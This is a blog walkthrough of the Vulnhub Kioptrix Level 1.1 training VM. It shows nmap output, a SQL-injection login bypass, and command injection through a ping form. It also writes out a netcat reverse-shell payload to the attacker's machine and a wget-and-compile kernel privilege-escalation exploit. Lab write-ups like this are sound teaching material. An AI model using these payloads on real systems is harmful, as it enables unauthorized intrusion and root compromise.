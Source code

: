 ```yaml
---
title: 'Vulnhub: Kioptrix Level 1.1(#2) - Walkthrough'
date: '2019-06-06T21:18:20+05:30'
draft: true
categories:
  - walkthrough
autoThumbnailImage: false
---
```

Kioptrix 2, the successor of one of the most popular vulnerable machines available online used for OSCP training, can be found here[ https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

Upon opening in the VMware, the machine looks like this 

![]()

Then I’ll discover the IP address of the target machine using the command

`arp-scan –l`

![]()

Then I did port scanning of the target machine to check for open ports and services running on them

`nmap –A –Pn 192.168.192.133`

The complete result was as follows with the ports and services running highlighted:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-06-06 04:39 EDT
Nmap scan report for 192.168.192.133
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            839/udp  status
|_  100024  1            842/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2019-06-06T05:30:31+00:00; -3h09m48s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:12:E2:C6 (VMware)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop
Host script results:
|_clock-skew: mean: -3h09m48s, deviation: 0s, median: -3h09m48s
TRACEROUTE
HOP RTT     ADDRESS
1   1.03 ms 192.168.192.133
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.17 seconds
```

Now after this I tried using SSH for login, but couldn’t succeed. **_IPP on port 631 with CUPS 1.1_** was my next target to try on, so I spent a good amount of time trying its exploits, but nothing really seemed to work. Then I also tried **_remote login on MySQL_** but it didn’t work either. Now I came to the **_port 80, for HTTP_**. The following is the webapp hosted on the target machine.

![]()

This opened up a login, so first things first, I tried SQL Injection 

![]()

And it actually worked, this opened the following page

![]()

Now I tried pinging my own IP address, which worked and the next thing which striked in my mind was trying command execution using the same prompt box we entered the IP address in, I start with a simple **_pwd_** command

`<IP address to ping>;<linux command to execute along>`

![]()

Now I start a netcat listener on my machine, using the command

`nc –nlvp <any available port>`

![]()

Now to get terminal access of the target machine on mine, I use the following command taking advantage of the command execution vulnerability I previously found.

`<any IP to ping>;/usr/local/bin/nc <Kali’s IP> <Port number on which listener is on> -e '/bin/bash'`

![]()

After executing this command, we’ll see a connection is established on our listener

Now we got the terminal access, but to get a command line interface, I used the command

`python –c “import pty;pty.spawn(‘/bin/bash/)”`

![]()

Now that I have a directory access, I tried playing in the directories for a while and used normal commands to learn more about the machines and files stored on it, some of these commands are below.

![]()

Now that I had user access and I surfed around the directories a little, I found writable file permissions for the folder _**/tmp **_which could be used for using a privilege escalation exploit compiling it and running it, which is exactly what I did.

Now I used two commands to make me aware of the Linux Kernel version and the OS release.

`cat /etc/*-release`	(OS Release)

`uname –r`			(Linux Kernel Version)

![]()

Using this exploit, I used the searchsploit tool in Kali to find a Privilege Escalation exploit.

![]()

Now that I found exactly one exploit, I could try using it on the machine. To download it onto the target machine, I will make use of the remote netcat terminal I created but first I’ll need to create a server from Kali hosting that exploit file I just found. For this I used the following commands

`searchsploit –m <exploit file name with extension>`		(copies the file to the working dir)

![]()

`python –m SimpleHTTPServer`			(starts a server in the same directory)

![]()

Now that this is done, I headed to the /tmp folder where writing and creating files is allowed for a normal user too, and download the exploit from the server I just created using the commands

`cd /tmp`

`wget <Kali’s IP address>:<port number of server>/<filename to be downloaded>`

![]()

After the exploit is downloaded, I now need to compile it and execute it.

`gcc –o <executable output exploit name> <exploit file name>		`	(to compile)

`./<executable file name>`

![]()

And upon the sight of “#” I knew that I’ve successfully escalated the privilege to root access.

To confirm it, I further used the commands “`whoami`” and “`id`”

![]()

Congratulations, we have successfully completed the walk-through, I hope you enjoyed it, regarding any doubts, I can be contacted via the contact information available on the blog.



Best Regards,

Adhyan Dhull
